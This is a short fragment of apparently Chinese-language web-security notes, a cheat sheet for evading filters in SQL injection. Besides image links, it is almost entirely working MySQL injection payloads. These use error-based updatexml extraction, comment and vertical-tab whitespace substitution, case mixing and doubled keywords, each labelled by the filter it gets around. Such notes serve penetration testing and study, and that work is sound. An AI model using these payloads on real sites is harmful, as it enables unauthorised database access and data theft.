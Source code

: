 transfer-encoding: chunked![image-20210713151129103](websafe/image-20210713151129103.png)

e.g: union/**/select

![1674381-20190707141421874-1913088861.jpg](websafe/1674381-20190707141421874-1913088861.jpg)

```mysql
\\过滤and or
id=1' oandr updatexml(1,concat(0x5e,version()),1) -- a

\\过滤注释
id=1' || updatexml(1,concat(0x5e,version()),1) || '1'='1

\\过滤空格
id=1' order%0bby%0b3 || '1'='1

\\过滤union select
id=11'%0BUNiOn%0BselECT%0B1,2,3 || '1'='1
id=11' uniunionon sElseLeCtECt 1,2,3 || '1'='1
```
